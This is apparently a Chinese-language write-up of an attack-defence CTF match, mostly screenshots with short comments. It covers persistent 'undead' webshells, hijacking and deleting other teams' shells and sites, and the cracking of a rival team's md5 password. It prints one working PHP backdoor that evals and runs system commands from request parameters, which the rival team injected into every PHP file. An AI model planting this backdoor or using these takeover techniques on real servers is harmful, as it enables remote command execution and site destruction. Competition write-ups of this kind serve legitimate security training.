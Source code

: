 ![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440032-57da490f-4ead-4963-a9f8-3cd719667f78.png)

不死马循环写入，被删后马上复活

你的马看起来不错，下一秒就是我的了。

白嫖了好几轮的flag

然后闲的没事想着不如连上蚁剑看看吧，找找其他师傅的马

批量导入一下

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440174-f1798768-8bfe-42ae-966d-5fbfe89c617e.png)

看见其他队伍被种了马，满怀热泪的帮他们删了站。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440287-c16107a8-effa-43cb-af51-72fcfd3509bd.png)

有一个队伍被命令注入打惨了，也帮他们删个站吧。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440425-bc5ae48b-4370-4feb-aca7-36e4da956e64.png)

当然还看到不少其他队伍的马

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440553-797b4725-34b1-4f74-9d57-19ee20f30b56.png)

甚至还有批量上waf的py脚本

毕竟是其他队伍的内部脚本，象征性打个码

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440710-7ceffb43-b373-4d22-b7e4-042cc26645e5.png)

流量日志里还发现一个狼人队伍的循环感染不死马

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440822-30fb9c8b-efd0-4a64-b988-547758fdfcbe.png)

会遍历目录把所有的php文件头部加上后门

```
<?php if (md5($_REQUEST['pass'])==="8e68ca4946b8e146a408f727eaf9da7c"){@eval($_REQUEST['code']);@system($_REQUEST['sys']);} ?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900440972-5686ebd9-3ea3-4c98-b9b8-2e5c89306a7a.png)

不过惊讶的是他的md5居然可以解开

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900441090-f1bbb6c3-68dd-4809-9e80-40442e007e5d.png)

somd5牛逼！

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900441201-d9ce9f33-aa80-4355-bed1-5e110a5ee901.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900441306-127af701-b56b-4978-a81f-e022fa11ae97.png)

好马，下一秒就是我的了
